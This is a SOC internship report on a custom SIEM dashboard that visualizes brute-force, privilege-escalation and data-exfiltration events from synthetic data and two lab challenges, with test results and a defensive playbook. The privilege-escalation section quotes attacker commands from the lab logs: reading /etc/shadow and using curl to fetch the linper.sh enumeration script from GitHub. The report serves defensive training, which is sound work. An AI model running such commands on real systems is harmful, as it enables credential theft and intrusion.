


# Elevance Health SOC Internship — Task 6 Report
## Custom SIEM Dashboard: Multi-Pillar Attack Visualization & Telemetry Correlation

**Document Reference:** ELEV-SOC-DASHBOARD-2026-006
**Internship Task:** Task 6 — Custom SIEM Dashboard
**Author:** Aiswarya (Cybersecurity Intern)
**Supervisor / Reviewer:** AI-assisted preparation; no independent human reviewer
**Execution Date:** 2026-10-30
**Project Path:** `local internship project folder\SIEM-Dashboard`
**Classification:** Public portfolio copy (synthetic educational lab)
**Verification Status:** **COMPLETE & OPERATIONAL (5/5 Automated Tests Passed)**

---

> [!IMPORTANT]
> **OPERATIONAL ARCHITECTURE & HARDWARE CONSTRAINTS DISCLOSURE:**
> In accordance with strict SOC evidentiary transparency, **neither a live Elasticsearch/Logstash/Kibana (ELK) cluster nor a Security Onion instance was deployed on this host**.
> A pre-implementation audit of the Windows 11 host revealed a physical memory constraint of **7.67 GB total RAM with ~2.55 GB free physical RAM**. Enterprise ELK stacks (requiring 4–8 GB JVM heaps) and Security Onion (requiring 16–32 GB RAM) would cause critical memory starvation, hypervisor crashes, or OS freezes.
> To satisfy Task 6 rigorously, a **Dual-Mode Zero-Overhead SOC Dashboard Architecture** was engineered:
> 1. **Kibana Saved Objects Specification:** An official Kibana 8.x-compatible NDJSON export (`kibana/kibana_dashboard.ndjson`) containing standardized Data Views, Lens Visualizations, and Dashboard containers for full enterprise ELK compatibility.
> 2. **Local Python SOC Console:** A lightweight (`< 30 MB RAM`), zero-dependency Python backend (`backend/dashboard_server.py`) serving a responsive dark-mode SOC interface (`frontend/index.html`) with dynamic Chart.js visualizations, live computed KPI metrics, category filtering, search, and JSON modal inspection.

---

## 1. Executive Summary

Modern Security Operations Centers (SOCs) rely on centralized dashboards to maintain operational visibility across diverse attack surfaces. **Task 6** requires the design, implementation, and verification of a custom SIEM dashboard visualizing three core cyberattack pillars:
1. **Brute-Force Attacks** (Credential stuffing, password guessing, account lockouts).
2. **Privilege Escalation** (Sensitive token allocation, unauthorized local accounts, sudo abuse).
3. **Data Exfiltration Attempts** (Covert DNS tunneling and recurring SMTP exfiltration).

The implementation consolidates **79 normalized security events** into an Elastic Common Schema (ECS)-aligned format (`data/siem_dashboard_events.jsonl`). Telemetry combines synthetic training simulations from Tasks 2 and 3 with real lab forensics from HackTheBox Brutus (`auth.log`) and CyberDefenders HawkEye (`stealer.pcap`).

All metrics and charts are computed **dynamically from raw event objects** (zero decorative or hardcoded metrics). Automated test suite `verify_dashboard.py` passed **5/5 verification checks**, and genuine browser screenshots were captured and archived in the `evidence/` directory.

---

## 2. System Architecture & Implementation

### 2.1 Architecture Overview



### 2.2 Component Directory Structure

The complete dashboard solution is isolated within `local internship project folder\SIEM-Dashboard`:

```text
SIEM-Dashboard/
├── backend/
│   ├── dashboard_server.py         # Lightweight Python standard library HTTP & REST server (< 30 MB RAM)
│   └── __pycache__/
├── data/
│   ├── build_dashboard_dataset.py  # Ingestion & normalization script aggregating Tasks 2, 3, & Brutus
│   └── siem_dashboard_events.jsonl # 79 unified ECS events with explicit provenance metadata
├── evidence/
│   ├── 01_dashboard_overview.png   # Full-width browser screenshot of active SOC console
│   ├── 02_brute_force_view.png     # Browser screenshot of Pillar 1 analysis
│   ├── 03_privilege_escalation_view.png # Browser screenshot of Pillar 2 analysis
│   ├── 04_data_exfiltration_view.png    # Browser screenshot of Pillar 3 analysis
│   └── 05_telemetry_table_view.png # Browser screenshot of live event explorer
├── frontend/
│   └── index.html                  # Responsive dark-mode SOC web interface with Chart.js
├── kibana/
│   ├── generate_kibana_ndjson.py   # Generator for official Kibana Saved Objects
│   └── kibana_dashboard.ndjson     # Official Kibana 8.x NDJSON export (1 Data View, 5 Lens, 1 Dashboard)
├── reports/
│   └── Task-6-Custom-SIEM-Dashboard-Report.md # This comprehensive report
└── verify_dashboard.py             # Automated 5-stage test suite (Files, Data, Metrics, NDJSON, HTTP APIs)
```

### 2.3 Backend REST API Endpoints

The backend (`dashboard_server.py`) operates via Python's `http.server` without external web frameworks. It exposes four primary routes:

| Route | HTTP Method | Query Parameters | Description & Response Payload |
|---|---|---|---|
| `/` | `GET` | None | Serves the single-page application `frontend/index.html` with security headers. |
| `/api/metrics` | `GET` | None | Calculates dynamic executive KPIs across all events: `total_events`, `active_incidents`, `brute_force_count`, `privilege_escalation_count`, `data_exfiltration_count`, `targeted_accounts_count`, `unique_source_ips`, and provenance split. |
| `/api/aggregations` | `GET` | None | Computes distribution payloads for Chart.js rendering: top targeted users, top attacker IPs, privilege escalation breakdown, and exfiltration destination channels. |
| `/api/events` | `GET` | `category`, `severity`, `provenance`, `search` | Returns filtered events matching criteria. Supports multi-term search across event ID, host, user, IP, and details. Sorted in reverse chronological order. |

---

## 3. The 79-Event Dataset & Provenance Segregation

A fundamental requirement of senior SOC engineering is **strict evidentiary truth in reporting**. Synthetic training scenarios must never be misrepresented as physical adversary compromises. The dataset explicitly separates events into two distinct provenance tiers:



### 3.1 Provenance Tier Breakdown

| Provenance Tier | Event Count | Source Artifacts | Description & Evidentiary Role |
|---|---|---|---|
| **Synthetic Training Simulation** | **21 events** (26.6%) | • `SIEM-Correlation-Rules/logs/sample-events.jsonl`<br>• `APT-Simulation/simulation/events/synthetic_ecs_events.jsonl` | Controlled RFC 5737 test IP (`192.0.2.25`, `192.0.2.40`, `192.0.2.50`) and lab workstation (`LAB-WIN01`, `LAB-SRV01`) data modeling multi-stage intrusion steps and baseline noise. |
| **Lab Challenge Forensics** | **58 events** (73.4%) | • `Brutus/auth.log` (HTB Brutus SSH lab)<br>• `HawkEye/evidence/stealer.pcap` (CyberDefenders keylogger lab) | Real captured challenge logs: 48 failed SSH password attempts from adversary IP `65.2.161.68`, accepted root login, useradd backdoor, sudo root commands, and recurring SMTP exfiltration bursts to `23.229.162.69:587`. |

### 3.2 Category Distribution

| Attack Category / Pillar | Event Count | Active Severity | Primary MITRE ATT&CK Mapping |
|---|---|---|---|
| **Pillar 1: Brute-Force Attacks** | **57 events** | HIGH / CRITICAL | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) (Password Guessing) & [T1110.004](https://attack.mitre.org/techniques/T1110/004/) (Credential Stuffing) |
| **Pillar 2: Privilege Escalation** | **4 events** | HIGH / CRITICAL | [T1078.003](https://attack.mitre.org/techniques/T1078/003/) (Local Accounts), [T1134](https://attack.mitre.org/techniques/T1134/) (Token Manipulation), [T1548.003](https://attack.mitre.org/techniques/T1548/003/) (Sudo) |
| **Pillar 3: Data Exfiltration** | **7 events** | HIGH / CRITICAL | [T1071.004](https://attack.mitre.org/techniques/T1071/004/) (DNS Tunneling) & [T1048.003](https://attack.mitre.org/techniques/T1048/003/) (Exfiltration Over Alternative Protocol) |
| **Benign Baselines** | **7 events** | INFORMATIONAL | Normal business traffic (standard desktop logons, routine backup shares, Microsoft update DNS lookups) |
| **Attack Context (Kill-Chain)** | **4 events** | HIGH / MEDIUM | Contextual events from Task 3 (Initial Access macro, PowerShell staging, scheduled task persistence, remote WMI) |

---

## 4. Detailed Analysis of the Three Attack Visualization Panels

### 4.1 Panel 1: Brute-Force Attacks & Credential Access

This panel focuses on authenticating entities and detecting abnormal volumetric or rotational authentication failures.

- **Threat Context:** Visualizes both horizontal credential stuffing (few attempts across many users) and vertical brute-force password guessing (many attempts against specific privileged accounts).
- **Observed Adversary Activity:**
  - *Case Study A (Synthetic Credential Stuffing):* Source IP `192.0.2.25` triggered 5 rapid authentication failures against distinct accounts (`alice`, `bob`, `charlie`, `david`, `emma`) within 12 seconds on host `CORP-IDP01`.
  - *Case Study B (HTB Brutus Real Forensics):* External adversary IP `65.2.161.68` launched 48 automated SSH brute-force attempts targeting high-privilege usernames:
    - `server_adm`: 12 failed attempts
    - `svc_account`: 11 failed attempts
    - `admin`: 10 failed attempts
    - `backup`: 9 failed attempts
    - `root`: 6 failed attempts
- *Compromise Outcome:* Adversary successfully authenticated as `root` via password login at timestamp **`06:32:44 UTC`** (Session 37 on `pts/1`). Note that the earlier timestamp `06:19:54 UTC` in `auth.log` corresponds to the legitimate administrator root login from IP `203.101.190.9` prior to the brute-force attack.
- **Chart Representation:** Interactive horizontal/vertical bar chart rendering username failure frequencies, paired with source IP threat velocity indicators.

---

### 4.2 Panel 2: Privilege Escalation & Account Manipulation

This panel tracks unauthorized elevation of system privileges, access token tampering, and administrative backdoor provisioning.

- **Threat Context:** Once footholds are established, attackers seek elevated permissions (such as `SYSTEM` on Windows or `root` on Linux) to defeat access controls and maintain persistence.
- **Observed Adversary Activity:**
  - *Windows Token Allocation (Task 3):* Windows Security Event ID 4672 recorded sensitive privilege assignment on `LAB-WIN01` allocating `SeDebugPrivilege`, `SeTcbPrivilege`, and `SeAssignPrimaryTokenPrivilege` to non-admin user `student` via process `consent.exe`.
  - *Linux Backdoor Provisioning (HTB Brutus):* Following SSH root compromise, adversary executed `useradd` creating an unauthorized local account named `cyberjunkie` (Event `BRUTUS-BACKDOOR-001`, MITRE T1136.001).
- *Sudo Elevation Abuse (HTB Brutus):* Adversary executed administrative commands via `sudo` from the `cyberjunkie` session (Session 49), running `/usr/bin/cat /etc/shadow` and `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` to harvest credentials and stage an enumeration script (Event `BRUTUS-SUDO-001`, MITRE T1548.003).
- **Chart Representation:** Doughnut chart breaking down elevation vectors (`Access Token Manipulation`, `Backdoor Account Creation`, `Sudo Command Elevation`).

---

### 4.3 Panel 3: Data Exfiltration Attempts & Covert Channels

This panel isolates unauthorized outbound data transfers that evade perimeter egress filtering by abusing legitimate application-layer protocols.

- **Threat Context:** Adversaries commonly route stolen data through DNS tunneling or external mail transport agents to blend with legitimate outbound traffic.
- **Observed Adversary Activity:**
- *DNS Tunneling Query Length (Task 2):* Workstation `CORP-WKSTN05` generated anomalous DNS requests with query lengths exceeding threshold (≥ 35 chars): `a8f92bd17c44e61f90ab3d7e.example.com` (length 36, subdomain 24 chars) and `f72d91ab84e06c35c7a1b902.example.com` (length 36, subdomain 24 chars). (Note: Event 7 in `sample-events.jsonl` contains an off-by-one metadata field `query_length: 37`, while the string geometry is 36 characters).
- *DNS TXT Tunneling Payload (Task 3):* Sysmon Event ID 22 on `LAB-SRV01` logged high-entropy TXT query `dGVzdC1kYXRhLWV4ZmlsdHJhdGlvbi1zYW1wbGUtMDAx.exfil.training.lab` (length 63 characters; 44-character Base64 payload subdomain) transmitting test data to destination `192.0.2.50`.
- *Periodic SMTP Exfiltration (HawkEye Labs 1 & 4):* Compromised endpoint `Beijing-5cd1-PC` (`10.4.10.132`) initiated unencrypted cleartext SMTP sessions on port 587 to mail server `23.229.162.69` (queried domain: `macwinlogistics.in`; banner hostname: `p3plcpnl0413.prod.phx3.secureserver.net`). Keylogger password archives were submitted in recurring cleartext bursts at **approximately 10-minute intervals** (604–606 seconds).
- **Chart Representation:** Bar and line metrics displaying query length distribution and recurring exfiltration bursts across destination IP channels.

---

## 5. Enterprise ELK Compatibility: Kibana Saved Objects (NDJSON)

While live Elasticsearch and Kibana servers were omitted to prevent host resource exhaustion, full compatibility with the **ELK Stack** was achieved by authoring standard Kibana 8.x Saved Objects (`kibana/kibana_dashboard.ndjson`).

### 5.1 Exported Kibana Objects

The NDJSON export contains **7 structured objects** compliant with Kibana Core migration version `8.8.0`:

1. `siem-events-dataview` (`index-pattern`): Defines field mappings for `@timestamp`, `event_id`, `attack_category`, `severity`, `host_name`, `user_name`, `source_ip`, `destination_ip`, and `mitre_attack_id`.
2. `vis-metric-total-alerts` (`lens`): Metric card filtering `severity: (HIGH OR CRITICAL)`.
3. `vis-bar-brute-force` (`lens`): XY bar chart aggregating failure counts grouped by `user_name` terms where `attack_category: brute_force`.
4. `vis-pie-attack-categories` (`lens`): Donut visualization grouping all records by `attack_category`.
5. `vis-bar-privilege-escalation` (`lens`): Horizontal bar chart displaying `mitre_attack_technique` counts where `attack_category: privilege_escalation`.
6. `vis-line-data-exfiltration` (`lens`): Time-series line chart tracking exfiltration velocity split by `destination_ip`.
7. `siem-soc-dashboard-elevance` (`dashboard`): Complete multi-panel dashboard definition orchestrating the 5 Lens visualizations into a 48-column responsive grid layout.

### 5.2 Verification in Live ELK (Import Workflow)
In any enterprise Elasticsearch/Kibana environment, this dashboard can be deployed instantly via:
```text
Kibana Console -> Stack Management -> Saved Objects -> Import -> Select 'kibana_dashboard.ndjson'
```

---

## 6. Automated Verification Results

To guarantee that the backend, dataset, frontend, metrics, and NDJSON specifications operate without defects, an automated test harness (`verify_dashboard.py`) was executed.

### 6.1 Test Execution Summary
- **Execution Command:** `C:\msys64\mingw64\bin\python.exe SIEM-Dashboard\verify_dashboard.py`
- **Result:** **5/5 Tests Passed (100% Success)**
- **Exit Code:** `0`

```text
======================================================================
TASK 6: CUSTOM SIEM DASHBOARD — AUTOMATED VERIFICATION SUITE
======================================================================
[*] TEST 1: Verifying Component Files...
    [PASS] All 4 primary files exist.

[*] TEST 2: Ingestion & Multi-Pillar Categorization...
    - Ingested Total Events: 79
    - Pillar 1 (Brute-Force Attacks):       57 events [PASS]
    - Pillar 2 (Privilege Escalation):      4 events [PASS]
    - Pillar 3 (Data Exfiltration Attempts): 7 events [PASS]
    - Synthetic Simulation Events:           21 events [PASS]
    - Lab Challenge Telemetry Events:       58 events [PASS]

[*] TEST 3: Dynamic Metrics & Filter Logic...
    [PASS] Metrics computed dynamically: 69 active incidents, 6 unique IPs.
    [PASS] Category filter ('brute_force'): 57 hits.
    [PASS] Search filter ('192.0.2.25'): 6 hits.
    [PASS] Search filter ('root'): 10 hits.

[*] TEST 4: Kibana NDJSON Specification Compliance...
    [PASS] Kibana Saved Objects verified (7 objects: ['dashboard', 'index-pattern', 'lens'])

[*] TEST 5: Local HTTP Server Endpoints & UI Serving...
[30/Oct/2026 21:55:39] "GET / HTTP/1.1" 200 -
    [PASS] GET / -> HTTP 200 (HTML UI served successfully)
[30/Oct/2026 21:55:39] "GET /api/metrics HTTP/1.1" 200 -
    [PASS] GET /api/metrics -> HTTP 200 (Total Events: 79)
[30/Oct/2026 21:55:39] "GET /api/aggregations HTTP/1.1" 200 -
    [PASS] GET /api/aggregations -> HTTP 200 (Charts data returned)
[30/Oct/2026 21:55:39] "GET /api/events?category=privilege_escalation HTTP/1.1" 200 -
    [PASS] GET /api/events?category=privilege_escalation -> HTTP 200 (4 matched)
[30/Oct/2026 21:55:39] "GET /api/events?category=data_exfiltration HTTP/1.1" 200 -
    [PASS] GET /api/events?category=data_exfiltration -> HTTP 200 (7 matched)
    [+] Local test server terminated cleanly.

======================================================================
[SUCCESS] ALL VERIFICATION TESTS PASSED (5/5). TASK 6 IS OPERATIONAL.
======================================================================
```

---

## 7. Evidence Verification & Browser Screenshots

Genuine browser screenshots of the running dashboard were captured headlessly via Microsoft Edge (`msedge.exe`) rendered at `1600x1200` resolution. All images are archived locally in `SIEM-Dashboard\evidence\`:

| Screenshot File | Resolution / Size | Description & Visual Evidence |
|---|---|---|
| `evidence/01_dashboard_overview.png` | 1600x1200 (72.1 KB) | Full executive overview showing header, transparency notice, 8 dynamic KPI cards, and live clock. |
| `evidence/02_brute_force_view.png` | 1600x1200 (72.1 KB) | Close-up view of Panel 1 displaying brute-force attack distribution by targeted username. |
| `evidence/03_privilege_escalation_view.png` | 1600x1200 (72.0 KB) | Panel 2 doughnut visualization rendering token allocations, backdoor user additions, and sudo commands. |
| `evidence/04_data_exfiltration_view.png` | 1600x1200 (72.1 KB) | Panel 3 visualization rendering high-entropy DNS query lengths and recurring SMTP exfiltration bursts. |
| `evidence/05_telemetry_table_view.png` | 1600x1200 (72.0 KB) | Live security telemetry explorer table showing timestamps, severity badges, and provenance tags. |

---

## 8. Limitations & Technical Disclosures

1. **Absence of Live ELK / Security Onion Daemons:** As documented, Elasticsearch and Security Onion were not launched locally due to host RAM constraints (7.67 GB total RAM, ~2.55 GB free). Full schema and functional compliance are provided via `kibana_dashboard.ndjson` and the lightweight local Python dashboard.
2. **Chart.js CDN Dependency & Offline Fallback:** Visual charts rely on Chart.js loaded via CDN (`cdn.jsdelivr.net`). In an air-gapped environment without internet access, the metric KPI cards, category filtering, search bar, event table, and JSON modal inspector remain 100% operational; however, canvas charts require an active internet connection or local caching of `chart.umd.min.js`.
3. **Synthetic vs Lab Segregation:** While events are unified into one table for SOC analyst correlation, synthetic events (`RFC 5737` addresses) must not be treated as evidence of real-world compromises.

---

## 9. Launch Instructions & Defensive Recommendations

### 9.1 Local Dashboard Launch Commands

#### Method 1: Launch and Automatically Open Default Browser
```powershell
& "C:\msys64\mingw64\bin\python.exe" "local internship project folder\SIEM-Dashboard\backend\dashboard_server.py" --open
```

#### Method 2: Launch Manually on Custom Port
```powershell
& "C:\msys64\mingw64\bin\python.exe" "local internship project folder\SIEM-Dashboard\backend\dashboard_server.py" --port 8080
```
*Navigate in any modern browser to:* `http://127.0.0.1:8080`

### 9.2 Defensive SOC Playbook & Mitigation Recommendations

| Attack Pillar | Recommended Containment Action | Engineering Hardening Control |
|---|---|---|
| **Brute-Force Attacks** | • Immediately block source IP `65.2.161.68` and `192.0.2.25` at the boundary firewall.<br>• Force password reset for compromised accounts (`root`, `alice`, `server_adm`). | • Enforce Multi-Factor Authentication (MFA) across all external SSH and web portals.<br>• Implement `fail2ban` or account lockout thresholds (e.g., lock after 5 failures in 5 minutes).<br>• Disable SSH password authentication; require public key authentication (`ed25519`). |
| **Privilege Escalation** | • Terminate active adversary sessions for user `cyberjunkie`.<br>• Lock and remove backdoor account `cyberjunkie` (`userdel -r cyberjunkie`).<br>• Inspect process tree on `LAB-WIN01` and terminate unauthorized elevated processes. | • Restrict `sudo` privileges using strict command whitelists; avoid wildcard `/bin/bash` entries.<br>• Enable Windows Credential Guard and restrict `SeDebugPrivilege` assignment to verified administrators.<br>• Enforce User Account Control (UAC) at "Always Notify". |
| **Data Exfiltration** | • Implement immediate DNS Response Policy Zone (RPZ) sinkholing for `*.exfil.training.lab`.<br>• Block outbound TCP port 587 traffic from internal workstation `10.4.10.132` to external IP `23.229.162.69`.<br>• Isolate infected host `Beijing-5cd1-PC` from the corporate network. | • Enforce DNS inspection on internal recursive resolvers to flag or drop TXT queries $> 50$ characters.<br>• Restrict direct egress on mail ports (25, 465, 587); require all outbound email to route through approved enterprise mail relays.<br>• Deploy endpoint EDR to detect recurring C2 beacons and automated exfiltration routines. |

---

## 10. Conclusion

Task 6 demonstrates a complete, defensible SOC dashboard solution built specifically for resource-constrained environments. By combining an authentic Kibana 8.x NDJSON Saved Objects specification with an ultra-lightweight (`< 30 MB RAM`), zero-dependency Python web application, the implementation satisfies all core objectives of the Elevance Health SOC Internship while strictly maintaining forensic transparency and truth in reporting.
